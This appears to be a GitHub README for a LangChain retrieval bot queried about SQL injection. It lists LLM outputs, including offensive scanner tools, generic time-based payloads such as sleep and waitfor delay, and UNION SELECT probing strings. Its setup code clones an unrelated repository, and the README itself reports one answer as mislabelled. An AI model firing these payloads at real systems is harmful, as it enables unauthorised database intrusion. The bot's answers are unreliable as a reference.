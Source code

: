# SQL-Injection-LLM-Bot
Get SQL Injection information using this Bot

### Steps:
1. Load the required libraries:
```
from langchain.chat_models import ChatOpenAI # --> OpenAI's LLM
from langchain.document_loaders import GitLoader # --> To clone the repo from GitHub
from langchain.indexes import VectorstoreIndexCreator # --> To create embeddings and indexes
from langchain.vectorstores import DocArrayInMemorySearch # --> Vector Database for LLM interaction
from IPython.display import display, Markdown # --> Output display
```
2. Clone the Repo using GitLoader from Langchain DocumentLoaders
```
loader = GitLoader(
    clone_url="https://github.com/hwchase17/langchain",
    repo_path="./example_data/test_repo2/",
    branch="master",
)

data = loader.load()
```
3. Created a Vector Database
```
index = VectorstoreIndexCreator(
    vectorstore_cls=DocArrayInMemorySearch
).from_loaders([loader])
```
4. Initialize the LLM
```
llm = ChatOpenAI(temperature = 0.0)
```
5. Query the database
```
query = "......"

response = index.query(query, llm=llm)

display(Markdown(response))
```

### Results
Query 1
```
query = "List all the different types of SQL Injections"
-----
The different types of SQL injections are:

In-band SQLi (Classic SQLi)
Error-based SQLi
Union-based SQLi
Inferential SQLi (Blind SQLi)
Blind-boolean-based SQLi
Blind-time-based SQLi
```

Query 2
```
query = "List all the SQL Injection Vulnerability Scanner Tools"
-----
Here is a list of SQL Injection Vulnerability Scanner Tools:

SQLMap - Automatic SQL Injection And Database Takeover Tool
jSQL Injection - Java Tool For Automatic SQL Database Injection
BBQSQL - A Blind SQL-Injection Exploitation Tool
NoSQLMap - Automated NoSQL Database Pwnage
Whitewidow - SQL Vulnerability Scanner
DSSS - Damn Small SQLi Scanner
explo - Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting - Blind SQL-Injection via Bitshifting
Leviathan - Wide Range Mass Audit Toolkit
Blisqy - Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)
These tools can help identify and exploit SQL injection vulnerabilities in web applications.
```

Query 3
```
query = "List some Generic Time Based SQL Injection Payloads"
-----
Here are some examples of generic time-based SQL injection payloads:

1. sleep(5)#
2. 1 or sleep(5)#
3. " or sleep(5)#
4. ' or sleep(5)#
5. " or sleep(5)="#
6. ' or sleep(5)='
7. 1) or sleep(5)#
8. ") or sleep(5)="#
9. ') or sleep(5)='
10. 1)) or sleep(5)#
11. ")) or sleep(5)="#
12. ')) or sleep(5)='
13. ;waitfor delay '0:0:5'--
14. );waitfor delay '0:0:5'--
15. ';waitfor delay '0:0:5'--
16. ";waitfor delay '0:0:5'--
17. ');waitfor delay '0:0:5'--
18. ");waitfor delay '0:0:5'--
19. ));waitfor delay '0:0:5'--
20. '));waitfor delay '0:0:5'--
21. "));waitfor delay '0:0:5'--
22. benchmark(10000000,MD5(1))#
These payloads can be used to test for time-based SQL injection vulnerabilities in web applications.
```

Query 4
```
query = "List some Generic Union Select Payloads"
----
Here are some examples of generic Union Select payloads that can be used in SQL injection attacks:

1. , (select * from (select(sleep(10)))a)
2. %2c(select%20*%20from%20(select(sleep(10)))a)
3. ';WAITFOR DELAY '0:0:30'--
These payloads can be used to perform Union-based SQL injection attacks by injecting malicious SQL code into vulnerable input fields. It is important to note that these payloads may need to be modified or customized based on the specific target and the underlying database management system being used.
```

Query 5
```
query = "List some Generic UNION SELECT Payloads"
----
Here are some examples of generic UNION SELECT payloads:

UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
These payloads can be used to test for SQL injection vulnerabilities by injecting a UNION SELECT statement into a vulnerable parameter and checking if the response contains the injected payload.
```

### Observations
1. Query 4 and Query 5 are the same but the LLM considered the SQL commands strictly.
2. The LLM returned Generic Time Based SQL Injection Payloads for the Query 4: List some Generic Union Select Payloads

### Improvements
- [ ] Fine-tune the LLM to mitigate the Query 4 and Query 5 issue
- [ ] Evaluate the LLM using Manual and LLM evaluation methods
